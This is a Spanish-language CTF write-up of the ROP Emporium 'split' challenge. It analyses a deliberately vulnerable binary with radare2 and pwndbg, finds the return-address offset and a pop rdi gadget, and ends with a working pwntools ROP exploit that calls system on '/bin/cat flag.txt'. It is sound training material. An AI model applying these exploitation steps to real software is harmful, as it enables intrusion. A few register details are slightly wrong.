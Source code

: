 ```yaml
---
layout: post
title: ROPemporium split - Usando ROP para escribir en RDI
author: c4rta
date: 2023-01-15
categories: [Explotacion binaria]
tags: [ROP]
image: 
  path: /assets/img/spilt/waifu.gif
---
```

{:.lead}


## A tomar en cuenta

- La dirección máxima en 64 bits es ```0x00007FFFFFFFFFFF``` y el RIP no puede sobrescribir una dirección mayor que este valor. 
- Los parámetros de función se pasan a los registros. Estos registros son RDI, RSI, RDX, RSX, R8, R9, respectivamente. Si el número de parámetros es superior a 6, se guardan en el stack

## Analizando el binario

Primeramente veremos con que protecciones cuenta el binario, esto con ```checksec```:

```
checksec --file=split                                             ─╯
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   70 Symbols	  No	0		3		split
```
Como se puede ver tiene ```NX``` asi que no podemos ejecutar codigo en el stack, asi que para resolverlo vamos a usar ROP (Programacion Orientada el Retorno).

Ahora metere el binario a radare2 para ver lo que esta haciendo en el main:

![](/assets/img/spilt/radare1.png)

Aqui lo unico interesante es que se esta llamando a la funcion ```pwnme``` en la direccion ```0x004006d2```. Y lo demas simplemente es el mensajito de bienvenida.

En la funcion ```pwnme``` tenemos esto:

![](/assets/img/spilt/radare2.png)

- En color rojo se esta declarando un puntero llamado ```buf``` que esta 0x20 por debajo del ```RBP```
- En color amarillo se esta creando un buffer de ```0x20``` (32 bytes) el cual se almacena en ```buf```
- En color verde es cuando el programa recibe nuestro input el cual lee ```0x60``` bytes en ```buf```.

Esto no es todo, siempre hay que mostrar todas las funciones en un programa, en radare lo hacemos con ```alf```. Veamos:

![](/assets/img/spilt/radare3.png)

Vemos como existe una funcion llamada ```usefulFunction``` la cual nunca se llama en el programa, y si vemos codigo tenemos algo como esto:

![](/assets/img/spilt/radare4.png)

Se esta haciendo uso de la funcion ```system``` para llamar a ```/bin/ls```, esto no es lo que queremos, nosotros queremos que llame a ```/bin/cat flag.txt```, y la pregunta es... ¿Como yo se que en el binario se esta llamando a ```/bin/cat flag.txt```?, pues facil, simplemente podemos mostrar los strings con ```rabin2 -z split```:

![](/assets/img/spilt/radare5.png)

Podemos ver que en la seccion ```.data``` esta ```/bin/cat flag.txt```, asi que tenemos que sustituirlo por ```/bin/ls```


## Crafteando el exploit

### Sacando el offset del RIP

Con ```pwndbg``` voy a ocasionar que el buffer pete pasandole la cadena generada por ```cyclic 100```, y deberiamos ver algo como esto:

```
*RBP  0x6161616161616165 ('eaaaaaaa')
*RSP  0x7fffffffda78 ◂— 0x6161616161616166 ('faaaaaaa')
*RIP  0x400741 (pwnme+89) ◂— ret 
───────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]────────────────────────────────────────────────────────────
 ► 0x400741 <pwnme+89>    ret    <0x6161616161616166>
```

Vemos que no sobrescribimos RIP en absoluto. Esto se debe a que sobrescribimos RIP con una dirección no válida mayor que ```0x00007fffffffffff```. Esto hace que el sistema operativo genere una excepción, y por lo tanto, no actualice el valor de RIP en absoluto. 

Asi que para sacar su offset podemos usar el registro ```RSP```, para sacar el offset de ```RSP``` ponemos ```cyclic -l faaaaaaa``` y esto nos da un offset de ```40```, este offset es el mismo que tiene el ```saved-rip```, y tiene el mismo ya que el ```saved rip``` tiene el valor guardado del puntero de instruccion, es decir, adonde regresar, pero este valor se guarda en el stack en una direccion en particular, y esa direccion es ```0x7fffffffda78```, esto lo podemos saber si mostramos el frame y vemos esta parte:

```
 Saved registers:
  rip at 0x7fffffffda78
```
Y si mostramos unos cuantos byes del stack, con el comando ```x/30wx $rsp``` vemos algo como esto:

```
0x7fffffffda78:	0x61616166	0x61616161	0x61616167	0x61616161
0x7fffffffda88:	0x61616168	0x61616161	0x61616169	0x61616161
0x7fffffffda98:	0x6161616a	0x61616161	0x6161616b	0x61616161
0x7fffffffdaa8:	0x6161616c	0x61616161	0xffffdb98	0x00007fff
0x7fffffffdab8:	0x35f3056c	0x394c8b3a	0x00000000	0x00000000
0x7fffffffdac8:	0xffffdba8	0x00007fff	0x00000000	0x00000000
0x7fffffffdad8:	0xf7ffd000	0x00007fff	0x80d1056c	0xc6b374c5
0x7fffffffdae8:	0xb179056c	0xc6b36486
```
En donde en la direccion ```0x7fffffffda78``` tenemos los valores ```0x61616166	0x61616161```, los cuales son los mismos que tiene el ```RSP```, asi que podemos decir que el ```saved rip``` tiene el valor ```0x6161616161616166``` y el ```RSP``` el valor ```faaaaaaa``` (que es lo mismo que ```0x6161616161616166``` pero en decimal), ademas podemos tambien hacer un ```cyclic -l 0x6161616161616166``` y nos dara un offset de 40 al igual que el ```RSP```. Y como ultimo, en este caso le estamos indicando al programa que regrese a ```0x6161616161616166```, lo cual es incorrecto. Y por toda esta explicacion es la razon por la cual el ```saved rip``` y el ```RSP``` tienen el mismo offset (nunca habia explicado esto y es bueno saberlo).

### Direccion de system

Esto es muy facil, para esto, usaremos la direccion de system que se encuentra en la funcion ```usefulFunction```, como se puede ver aca:

![](/assets/img/spilt/radare6.png)

La direccion es: ```0x000000000040074b```

### Direccion de /bin/cat flag.txt

Esto lo hacemos con ```rabin2 -z split``` y copiamos la direccion, la cual es: ```0x00601060```

### Direccion de pop rdi

Como mencione hace un rato, usamos esto para meter en el registro rdi: ```/bin/cat flag.txt```. La direccion de pop rdi la podemos sacar con herramientas como ropper, la cual nos permiten ver todos los gadgets del programa. Usamos el comando ```ropper -f split```.

Vemos como nos encontro el gadget:

```0x00000000004007c3: pop rdi; ret; ``` y su direccion es ```0x00000000004007c3```

## Ejecutando el exploit

Al final nuestro exploit quedo asi:

```py
from pwn import *

p = process("./split")

padding = b"A" * 40
system = 0x000000000040074b
bin_cat = 0x00601060
pop_rdi = 0x00000000004007c3

payload = padding
payload += p64(pop_rdi)
payload += p64(bin_cat)
payload += p64(system)

p.sendline(payload)
print(p.recvall().decode())
```

Y lo que hicimos fue:

- Cambiar el return adress a la dirección de pop rdi; ret.
- Después del return adress, pusimos la dirección de /bin/cat flag.txt
- Después de la dirección de /bin/cat flag.txt, pusimos la dirección de system@plt

De esta manera después de la última instrucción de ```pwnme``` se ejecute (osea el ```ret```), el ```RIP``` saltara a la dirección de ```pop rdi;ret```, simultáneamente el ```RSP``` apuntará ahora a la dirección de ```/bin/cat flag.txt```. Luego se pondrá en ```rdi``` la dirección de ```/bin/cat flag.txt``` y el ```ret``` ejecutará la funcion```system``` que tiene como argumento ```/bin/cat flag.txt``` :point_up: 🤓  

Y al ejecutarlo nos da la flag:

![](/assets/img/spilt/exploit.png)

Eso ha sido todo, gracias por leer ❤

